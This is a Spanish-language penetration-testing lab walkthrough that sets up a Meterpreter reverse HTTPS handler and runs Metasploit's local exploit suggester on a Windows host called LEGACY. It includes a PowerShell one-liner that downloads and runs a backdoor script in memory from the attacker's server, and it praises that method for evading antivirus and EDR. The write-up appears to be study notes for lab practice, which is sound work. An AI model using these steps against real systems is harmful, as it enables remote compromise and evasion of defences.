 2. Levantamos un servidor en nuestro kali
3. Configuramos y ejecutamos nuestro meterpreter:
```meterpreter
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set LHOST 192.168.45.239
LHOST => 192.168.45.239
msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf6 exploit(multi/handler) > set ExitOnSession false
ExitOnSession => false
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) > 
[*] Started HTTPS reverse handler on https://192.168.45.239:443
[*] https://192.168.45.239:443 handling request from 192.168.180.249; (UUID: naypubax) Staging x64 payload (204892 bytes) ...
[*] Meterpreter session 1 opened (192.168.45.239:443 -> 192.168.180.249:62948) at 2025-06-05 10:57:56 -0300
```
4. Desde la maquina victima solicitamos y ejecutamos el backdoor.
```
IEX (New-Object Net.WebClient).DownloadString('http://192.168.45.239:8000/meterpreter.ps1')
```
> Datos sobre este comando

➡️ Descarga y ejecuta en memoria directamente el contenido del script (meterpreter.ps1) desde nuestro servidor.

    DownloadString(...) → baja el texto del script.

    IEX (alias de Invoke-Expression) → ejecuta ese texto como código PowerShell.

🔸 No deja rastro en disco
🔸 Ideal para bypassear AVs básicos o EDRs sin disco

#### Paso 2: Escalada de privilegios en LEGACY
1. Enumeracion con nuestro meterpreter

La enumeracion basica que generamos nos da los mismos resultados que ya teniamos. Ejecutamos la session actual de meterpreter en background
y utilizamos el modulo **suggester**

```meterpreter
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf6 post(multi/recon/local_exploit_suggester) > run
[*] 192.168.180.249 - Collecting local exploits for x64/windows...
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/logging-2.4.0/lib/logging.rb:10: warning: /usr/lib/x86_64-linux-gnu/ruby/3.3.0/syslog.so was loaded from the standard library, but will no longer be part of the default gems starting from Ruby 3.4.0.
You can add syslog to your Gemfile or gemspec to silence this warning.
Also please contact the author of logging-2.4.0 to request adding syslog into its gemspec.
[*] 192.168.180.249 - 203 exploit checks are being tried...
[+] 192.168.180.249 - exploit/windows/local/cve_2022_21882_win32k: The service is running, but could not be validated. May be vulnerable, but exploit not tested on Windows Server 2022
[+] 192.168.180.249 - exploit/windows/local/cve_2022_21999_spoolfool_privesc: The target appears to be vulnerable.
[+] 192.168.180.249 - exploit/windows/local/cve_2023_28252_clfs_driver: The target appears to be vulnerable. The target is running windows version: 10.0.20348.0 which has a vulnerable version of clfs.sys installed by default
```